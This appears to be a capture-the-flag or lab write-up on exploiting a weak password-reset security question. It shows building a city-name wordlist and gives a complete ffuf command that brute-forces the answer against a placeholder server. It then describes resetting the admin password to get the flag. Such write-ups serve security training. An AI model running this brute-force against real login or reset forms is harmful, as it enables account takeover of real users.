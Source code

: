 # Vulnerable Password Reset

### Which city is the admin user from?

This assessment has a web application with a password reset function that has a security question. In order to try to get the password, we'll try to use a wordlist containing city names.

**Step 1** - Get the wordlist:

* Download the full [CSV wordlist](https://github.com/datasets/world-cities/blob/main/data/world-cities.csv)
* Reduce the wordlist to contain only city names
  *   ```bash
      cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
      ```



**Step 2** - Intercept the Security Question POST Request:

* Use Burp Suite to intercept the Request

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Brute-force the Security Question:

* With the POST Request information build the following ffuf command:
  *   {% code overflow="wrap" %}
      ```bash
      ffuf -w ./city_wordlist.txt -u http://SERVER_IP:SERVER_PORT/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=PHP_SESSION_ID" -d "security_response=FUZZ" -fr "Incorrect response."

      ```
      {% endcode %}



<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Reset the admin user's password on the target system to obtain the flag.

**Step 1** - Use the city discovered to answer the first question to reset the admin's password

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Change the password

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Login with the new credentials to get the flag!

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
